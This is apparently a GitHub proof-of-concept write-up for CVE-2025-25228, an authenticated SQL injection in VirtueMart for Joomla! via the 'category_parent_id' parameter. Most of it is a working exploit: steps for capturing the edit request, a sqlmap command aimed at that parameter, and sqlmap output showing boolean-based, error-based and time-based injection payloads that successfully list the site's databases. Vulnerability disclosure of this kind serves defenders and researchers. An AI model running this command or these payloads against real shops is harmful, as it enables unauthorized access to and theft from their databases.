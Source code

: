 # CVE-2025-25228: SQL injection in VirtueMart 1.0.0 - 4.4.7 for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-25228

**VirtueMart:** https://extensions.joomla.org/extension/virtuemart/

## Introduction
An authenticated (administrator) SQLi vulnerability in VirtueMart for Joomla! v4.4.4 via the 'category_parent_id' parameter under Product Category.

## POC
To exploit this vulnerability go to 'VirtueMart Control Panel >> Products >> Categories >> Category Name >> Pagination >> Edit' and save the edit request (req.txt).

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql -p 'category_parent_id' --batch

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
Parameter: MULTIPART category_parent_id ((custom) POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: ------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_name"

Pagination

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

(SELECT (CASE WHEN (7632=7632) THEN 0 ELSE (SELECT 2787 UNION SELECT 4392) END))

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

0 AND GTID_SUBSET(CONCAT(0x716a627a71,(SELECT (ELT(4979=4979,1))),0x716a767171),4979)

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

0 AND (SELECT 4218 FROM (SELECT(SLEEP(5)))cNIy)
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```